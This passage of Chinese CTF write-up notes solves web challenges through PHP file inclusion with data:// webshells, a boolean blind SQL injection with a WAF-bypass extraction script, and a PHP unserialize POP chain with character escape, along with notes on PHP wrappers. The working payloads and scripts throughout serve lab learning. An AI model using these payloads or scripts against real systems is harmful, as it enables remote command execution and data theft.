
可以得出这是一个陷阱页，真正的入口不在这
### 4.寻找入口(找js文件)
静态页面本身没有按钮、没有输入框，你看不到攻击入口。

但页面加载时会加载 JS 文件，JS 里经常藏着：

- 隐藏的接口地址
- 加密的路径
- 注释掉的提示

#### 查看源码

看到js文件路径

打开

<font color="red">JS 文件里的代码是自动执行的，但它把结果打印到控制台了。
我们直接把这段代码复制到控制台跑一遍，就能看到解码结果。</font>

看到路径：/truueechallenge.php
拼接到url后看到源码开始二阶段

### 分析源码并解题
#### 1.源码

```php
$cmd = "<?php @eval($_POST['cmd']); ?>";  // 写死的webshell
```
#### 2：分析校验规则

代码做了什么：

1. 取 `file` 参数的第 25 个字符之后的内容
2. 把这段内容做 base64 解码
3. 解码结果必须等于写死的 webshell
4. 校验通过后，`include $file`

#### 3：构造 payload

`data://text/plain;base64,` 正好 25 个字符！

所以 file 参数 = `data://text/plain;base64,` + webshell 的 base64 编码

webshell：`<?php @eval($_POST['cmd']); ?>`
base64 编码：`PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+`

#### 4.控制台发送完整payload
```php
const file = "data://text/plain;base64," + btoa('<?php @eval($_POST[\'cmd\']); ?>');
fetch('/truueechallenge.php?file=' + encodeURIComponent(file), {
  method: 'POST',
  headers: {'Content-Type':'application/x-www-form-urlencoded'},
  body: 'cmd=system("id");'
}).then(r=>r.text()).then(console.log)
```
注意要用encodeURIComponent
因为 URL 里的 `+`、`;`、`/` 等字符会被浏览器解析错，所以要编码。
#### 5.先查RCE是否执行成功，自己是什么权限

析：`btoa()` 自动生成 base64
##### `uid=33(www-data) gid=33(www-data) groups=33(www-data)` 解释

(1)这是 Linux 的 `id` 命令返回的结果，说明**我们现在是以 www-data 用户身份在服务器上执行命令**。

部分	                 -------- 意思
uid=33	                -------用户 ID 是 33
(www-data)	            ------用户名是 www-data
gid=33	                ------用户组 ID 是 33
groups=33(www-data)	    ------所属的用户组是 www-data

##### (2)www-data 是什么用户？
**就是运行 Web 服务（Apache/Nginx）的用户。**
它的权限很低：

- 能读网站文件
- 能执行一些基本命令
- 但不能读 root 的文件
- 不能改系统配置
#### 6.再查flag在哪、需要什么权限(便于后序提权)
##### 1.查询位置
```php
cmd=system("find / -iname '*flag*' 2>/dev/null");
```

只有最后一个 `/tmp/flag` 是题目特意放的
得出在/tmp/flag

##### 2.查权限(ls)
```php
cmd=system("ls -la /tmp/flag; ls -la /var/www/html/");
```

#### 3.
1. 提权：往 primary 放 -L 文件和软链，等 root 的 cp 循环复制 flag 到 marstream
2. 访问 /marstream/a 拿 flag(因为服务器一直卡住，第一遍过了，第二遍不行故没有图片了，只有大概思路)


---

## 四 丹特丽安の書架（藏书检索）

**考点**：MySQL 布尔盲注 + WAF 关键字绕过

### 一步步操作


1. 确认注入点：
   - ?id=6' && 1=1 && '1'='1  → HIT
   - ?id=6' && 1=2 && '1'='1  → MISS
   - Oracle：响应里 <meta name="x-verdict" content="HIT|MISS">

2. WAF绕过（血泪教训）：
   - AND 被拦 → 必须用 &&
   - select → /*!select*/
   - from → /*!from*/
   - limit → /*!limit*/

3. 枚举：
   - 当前数据库有 security 表
   - security 表有多行！（之前一直LIMIT 1只看第一行假数据）

4. 逐行扫描找含 { 的行：
```c
   for offset in 0..9:
     instr((/*!select*/ syc_flag /*!from*/ security /*!limit*/ offset,1),'{')>0
   → offset=5（第6行）HIT！

5. 逐位提取flag：
   开头确认 SYC{，长度41
   逐字符匹配小写字母+数字+_-}
```

**自动提取脚本**：


```
import urllib.request, urllib.parse, re

base = "http://目标地址/"
S = "/*!select*/"; F = "/*!from*/"; L = "/*!limit*/"

def verdict(idv):
    url = base + "?" + urllib.parse.urlencode({'id': idv})
    for _ in range(3):
        try:
            r = urllib.request.urlopen(url, timeout=8)
            h = r.read().decode('utf-8', 'ignore')
            v = re.search(r'name="x-verdict" content="([^"]*)"', h)
            if v: return v.group(1)
        except: pass
    return "ERR"

def q(expr):
    return verdict(f"6' && ({expr}) && '1'='1")

e = f"{S} syc_flag {F} security {L} 5,1"

# 长度二分
lo, hi = 30, 50
while lo+1 < hi:
    mid = (lo+hi)//2
    if q(f"length(({e}))>{mid}") == "HIT": lo = mid
    else: hi = mid
ln = lo + 1

# 逐位匹配
charset = "abcdefghijklmnopqrstuvwxyz0123456789_-}"
flag = "SYC{"
for p in range(5, ln+1):
    for c in charset:
        if q(f"substr(({e}),{p},1)='{c}'") == "HIT":
            flag += c
            break
    print(flag, flush=True)
```
---
## 五 ezpop

## 1. 源码（关键部分）

```php
class A {
    public $user; public $sign;
    public function __construct($u,$s){ $this->user=$u; $this->sign=$s; }
    public function __destruct(){ echo "Welcome...!<br>"; echo "Profile signature: ".$this->sign."<br>"; }
}
class B {
    public $action;
    public function __wakeup(){ $this->action = null; }   // ← 陷阱1
    public function __toString(){
        if(!is_object($this->action)||!method_exists($this->action,'__invoke')) return '';
        $func=$this->action; return (string)$func();
    }
}
class C { public $target; public $method;
    public function __invoke(){
        if(!is_object($this->target)||!is_string($this->method)) return '';
        if(!method_exists($this->target,'__call')||method_exists($this->target,$this->method)) return '';
        $m=$this->method; return $this->target->$m();      // 调 D 不存在的 -> __call
    }
}
class D { public $next; public $property;
    public function __call($n,$a){
        if(!is_object($this->next)||!is_string($this->property)) return '';
        $p=$this->property; return $this->next->$p;        // 访问 E 不存在属性 -> __get
    }
}
class E { public $sink; public $cmd;
    public function __get($n){
        if(!($this->sink instanceof F)) return;
        $this->sink->flag_trigger = $this->cmd;            // 触发 F::__set
    }
}
class F {
    private $flag_trigger;
    public function __set($name,$value){
        if($name!=='flag_trigger') return;
        system($value);                                    // ← sink，命令执行
    }
}

function filter($data){ return str_replace("admin","hacker",$data); }
// 入口：$entry = new A($_GET['user'], $_GET['sign']);
//       $ser = serialize($entry); $escaped = filter($ser); unserialize($escaped);
```
### 2. 漏洞点分析

- **字符逃逸（增字节逃逸）**：`filter` 把 `admin`(5字节) 替换成 `hacker`(6字节)，每个 `admin` 多出 **1 字节**。
- 反序列化时按**声明长度**读取字段值，替换后内容变长，多出的字节会“溢出”到下一个字段，从而**篡改后续字段结构**。
- 利用方式：在 `user` 里塞 `N` 个 `admin`，多出 `N` 字节，用这 `N` 字节吞掉 `";s:4:"sign";`，把 `sign` 改造成我们注入的对象。

### POP 链（最终 sink：system）

```
A::__destruct  (echo sign -> 触发 B::__toString)
  → B::__toString  ($action() -> 触发 C::__invoke)
    → C::__invoke  (调用 D 上不存在的方法 -> 触发 D::__call)
      → D::__call   (访问 E 上不存在的属性 -> 触发 E::__get)
        → E::__get   ($sink->flag_trigger = $cmd -> 触发 F::__set)
          → F::__set (system($value) 命令执行)
```

---

### 3. 构造过程（关键坑逐个排）

### 坑1：B 的 `__wakeup` 会把 action 置 null

必须**绕过 __wakeup**。经典手法（CVE-2016-7124）：序列化对象**声明的属性数 > 类实际属性数**，则 __wakeup 不触发。
B 类只有 1 个属性，所以写 `O:1:"B":2:{...}`（声明 2 个，实际只列 action）。

### 坑2：F 的私有属性 `flag_trigger`

`E::__get` 里 `$this->sink->flag_trigger = $cmd` 要触发 `F::__set`，且 `instanceof F` 要成立。
私有属性序列化必须带 `\x00类名\x00` 前缀，长度实测 15：

```
O:1:"F":1:{s:15:"\x00F\x00flag_trigger";N;}
```

### 坑3（核心）：字符逃逸的 N 值 & 尾巴覆盖

**错误公式**（之前一直没通）：`inject = '";s:4:"sign";'`，再把 B 串拼后面，`N = len(inject)+len(b)+1` → 溢出量比 B 串还长，B 被吃掉，sign 解析为空/乱。

**正确做法**：

1. `inject` 要**自含完整内容**，且 `N = len(inject)`，这样溢出量刚好等于 inject。
2. inject 结尾必须加 `;}` **关闭 A 对象**，让原生尾巴 `";s:4:"sign";s:1:"x";}` 变成“尾随垃圾”被忽略——否则原生 sign 字段会**覆盖**我们注入的 sign。
3. sign 字段要**直接跟对象**，不能包成字符串：
   - `s:203:"O:1:\"B\":...` → sign 是“字符串”，echo 不触发 __toString
   -  `O:1:"B":...` 直接作为 sign 值 → sign 是对象，A::__destruct echo 时触发链

### 最终公式

```python
payload = 'O:1:"B":2:{s:6:"action";' + C_chain + '}'
inject  = '";s:4:"sign";' + payload + ';}'
N       = len(inject)                       # 溢出字节数
user    = 'admin' * N + inject
sign    = 'x'                               # 会被原生尾巴覆盖成尾随垃圾，无影响
```
## 4. 完整 payload 生成（Python）

```python
import urllib.request, urllib.parse, re, html

base = "http://80-0818ccbf-7e1a-47f9-adea-5c66f619af4f.challenge.ctfplus.cn/"

cmd = "cat /flag"                       # 注意：直接写 shell 命令，不要写 system('...')

f = 'O:1:"F":1:{s:15:"\x00F\x00flag_trigger";N;}'   # 私有属性长度 15
e = 'O:1:"E":2:{s:4:"sink";' + f + 's:3:"cmd";s:%d:"%s";}' % (len(cmd), cmd)
d = 'O:1:"D":2:{s:4:"next";' + e + 's:8:"property";s:1:"x";}'
c = 'O:1:"C":2:{s:6:"target";' + d + 's:6:"method";s:1:"x";}'
payload = 'O:1:"B":2:{s:6:"action";' + c + '}'       # B 声明 2 属性绕 __wakeup

inject = '";s:4:"sign";' + payload + ';}'           # 带尾闭，防原生 sign 覆盖
N = len(inject)
user = 'admin' * N + inject
sign = 'x'

url = base + "?user=" + urllib.parse.quote(user) + "&sign=" + urllib.parse.quote(sign)
r = urllib.request.urlopen(url, timeout=25)
txt = html.unescape(re.sub('<[^>]+>', '', r.read().decode('utf-8','ignore')))
idx = txt.rfind('w(')
print(txt[idx+1:] if idx != -1 else txt[-800:])
```

### 执行结果（链完整触发）

```
Welcome to Geek_Challenge2026!？！强强？！666，还有第二关马上就到了还有一步
RCE:SYC{18380c2d-491b-4992-bd2d-0c11b041f291}
```

（用 `cmd="id"` 可验证 RCE：`uid=33(www-data) gid=33(www-data)`）

---

## 5. 知识点小结（Web 反序列化）

| 考点          | 要点                                                         |
| ----------- | ---------------------------------------------------------- |
| 字符逃逸        | 过滤使长度+1 时用 `admin` 填充溢出；**N = len(inject)**，inject 自含完整字段  |
| 逃逸收尾        | 注入字段后加 `;}` 关闭对象，原生尾巴变尾随垃圾，防字段覆盖                           |
| __wakeup 绕过 | 序列化声明属性数 > 类实际属性数（如 `O:1:"B":2:{...}`）                     |
| 私有属性        | 序列化带 `\x00类名\x00` 前缀，长度按实际字节数                              |
| POP 链       | `__destruct→__toString→__invoke→__call→__get→__set→system` |
| 命令注入        | `system($value)` 时 value 直接写 shell 命令，不要包成 `system('...')` |

---
# 四.CTFshow
## 文件包含漏洞
### <font color="red">文件包含会用到php伪协议相关知识，我在此做一个补充
</font>
# PHP 伪协议（Wrapper）学习笔记

> 伪协议：PHP 提供的特殊"资源访问路径"，常用于文件包含、读文件、反序列化等漏洞利用。

#### 一、CTF 高频伪协议（必须掌握）

| 协议 | 作用 | CTF 利用 | 关键条件 |
|---|---|---|---|
| `php://filter` | 读取文件时套用过滤器 | 读源码（base64 套出）⭐最常用 | 无特殊条件，本地可用 |
| `php://input` | 读取 POST 的原始数据 | include 时执行 POST 里的代码 | include 需 `allow_url_include=On` |
| `data://` | 把内容直接当数据 | 直接执行代码 | include 需 `allow_url_include=On` |
| `phar://` | 访问 PHP 归档（.phar） | 配合反序列化（phar 反序列化） | 本地可用 |
| `zip://` | 访问压缩包内文件 | 绕过上传/包含，读压缩包内文件 | 本地可用 |
| `file://` | 访问本地文件 | 读任意文件（如 file:///etc/passwd） | 默认可用 |

#### 二、php:// 家族完整成员

| 子协议 | 作用 |
|---|---|
| `php://filter` | 文件内容过滤（CTF 核心） |
| `php://input` | 读 POST 原始请求体 |
| `php://output` | 只写流，往输出缓冲区写数据 |
| `php://stdin` | 标准输入 |
| `php://stdout` | 标准输出 |
| `php://stderr` | 标准错误 |
| `php://memory` | 内存中的临时流 |
| `php://temp` | 临时文件流（内存不够时写磁盘） |
| `php://fd` | 直接访问文件描述符 |

#### 三、远程/网络类协议

| 协议 | 作用 | 条件 |
|---|---|---|
| `http://` | 访问 HTTP 资源 | `allow_url_fopen=On`，include 需 `allow_url_include` |
| `https://` | 访问 HTTPS 资源 | 同上 |
| `ftp://` | 访问 FTP | 同上 |
| `ftps://` | 访问加密 FTP | 同上 |

#### 四、压缩/归档类

| 协议 | 作用 |
|---|---|
| `zlib://` | zlib 压缩流 |
| `compress.zlib://` | gzip 压缩 |
| `compress.bzip2://` | bzip2 压缩 |
| `zip://` | zip 压缩包 |
| `phar://` | PHP 归档 |
| `rar://` | RAR 压缩包（需扩展） |

#### 五、其他/特殊类（了解即可）

| 协议 | 作用 |
|---|---|
| `glob://` | 按通配符模式查找文件路径 |
| `expect://` | 执行命令流（需 expect 扩展，可直接 RCE） |
| `ssh2://` | SSH 连接（需扩展） |
| `ogg://` | 音频流（需扩展） |

#### 六、两个关键配置

| 配置 | 默认 | 影响 |
|---|---|---|
| `allow_url_fopen` | On | 控制 http/ftp/input 等远程读取 |
| `allow_url_include` | Off | 控制 include 能否用 data/input/http 等 |

> 记忆：**本地协议**（file、php://filter、phar、zip）不受这两个限制；**远程/URL 协议**（data、http、input）受影响。
读源码 → php://filter
读本地文件 → file://
执行代码 → data:// 或 php://input
反序列化 → phar://


---
## 78题
### 1.源码

### 2.解读
```php
$_GET['file']:GET传参，取地址栏中file=后面的数据
$file=$GET_['file']:将取到的值传入$file变量中
`include` 的作用：读入并执行指定的文件。
include($file):执行我们写入的文件，在GET中也就是file=后面的值
```
### 3.尝试攻击
#### 这是一个最简单的文件包含漏洞
没过滤、没拼后缀，意味着**直接包含就能读**，连 `php://filter` 都不一定需要。 
##### 1.先尝试直接包含flag文件
地址栏后拼接
?file=flag.php
?file=flag
?file=/flag
<font color="red">发现均不行

##### 1.尝试php伪协议：
原理：如果直接包含读不到（比如 flag 藏在一段 PHP 代码里，被当作代码执行了），就用 filter 把源码套出来：</font>
拼接：?file=php://filter/read=convert.base64-encode/resource=flag.php
拿到被base64编码后的flag

#### 4.解码
用CyberChef解码

#### 5.原理解析:

##### 1.<font color="red">浏览器内置php解析器，浏览器不会将执行的php代码呈现在页面上，但用解码器将其破坏使之不再被当成php文件执行就能呈现在页面上了
</font>
2.flag 常常藏在 `.php` 文件的源码里（比如 `$flag="..."` 是赋值，不会输出）。直接包含只能 "执行" 看不到赋值；用 base64 过滤器**把源码变成文本套出来**，就能看到那个赋值语句里的 flag 了。

---
## 79题
### 1.源码
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:10:14
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:12:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
### 2.解析
```php
$file = str_replace("php", "???", $file);
```
str_replace是php函数：<font color="blue">
str_replace(查找值, 替换值, 被搜索的字符串, 替换次数)
此函数对大小写敏感不会过滤PHP</font>

作用:<font color="red">是将$file后面内容中的php换成???再返回</font>
这样就形成了一个简单的过滤
### 3.尝试攻击
1.在地址栏写/?file=PHP://filter/read=convert.base64-encode/resource=flag.PHP
返回错误原因：linux对大小写敏感文件名应是php才对

2.也许文件名不是php;尝试/?file=flag.txt
返回错误

##### 3.<font color="red">用Linux命令读取有什么文件，flag文件在哪里</font>

输入/file=data://text/plain,<?system("ls");?>
发现有返回，<font color="red">short_open_tag是开启了的,若未开启用?file=data://text/plain,<?=system("ls");?>
</font>

确认了flag在flag.php文件中

### 4.如何绕过过滤
因为用filter协议压根读不到文件，都被过滤了
<font color="red">所以直接用data协议将代码直接喂给include，再用system命令执行</font>
<font color="blue">
```php
故可以构造出
/?file=data://text/plain,<?="base64 flag.ph?"?>
```

解码：
